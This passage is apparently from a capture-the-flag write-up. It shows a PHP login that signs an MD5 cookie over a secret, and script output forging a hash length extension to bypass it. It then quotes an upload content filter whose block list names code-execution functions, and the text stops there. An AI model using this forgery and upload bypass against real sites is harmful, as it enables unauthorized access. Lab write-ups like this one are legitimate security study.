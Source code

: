 Here we can get the hash from cookie, and we know the length of the secret and key:

```php
function login(){
    $secret = "********";    // length=8
    setcookie("hash", md5($secret."adminadmin"));
    return 1;
}
```

So we can use [hash length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack) to bypass it. The python script used for the attack is from @ptr-yudai, since im so lazy to compile the Hashpump and i use python3.9, so i slightly modified script:

```tex
❯❯ py .\hash_leattack.py
Input Signature: 52107b08c0f3342d2153ae1d68e6262c
Input Data: admin
Input Key Length: 13
Input Data to Add: test
known_md5 = 52107b08c0f3342d2153ae1d68e6262c
new_md5   = bcb7fda11f22c5992de2093ed0e5a654
data      = admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00test
```

the key length is the length of the secret variable plus the length of the username character(8 + len('admin') => 13)

Then we use the `admin` as the useranme, the data output above use as the password and add `user` to the cookie, with the new_md5 output above as the value. Now we can upload files:

![](https://i.imgur.com/eJApbxI.png)

3.We can even upload the php file directly, but the code does some checking of the file content:

```php
// config.php
class Admin {
    public function upload_file() {
        ...
        $this->content_check -> check();
        ...
    }
}

class Check {
    function check() {
        $content = file_get_contents($this->filename);
        $black_list = ['system','eval','exec','+','passthru','`','assert'];
        foreach ($black_list as $k=>$v) {
            if (stripos($content, $v) !== false) {
                die("your file make me scare");
            }
        }
        return 1;
    }
}
```
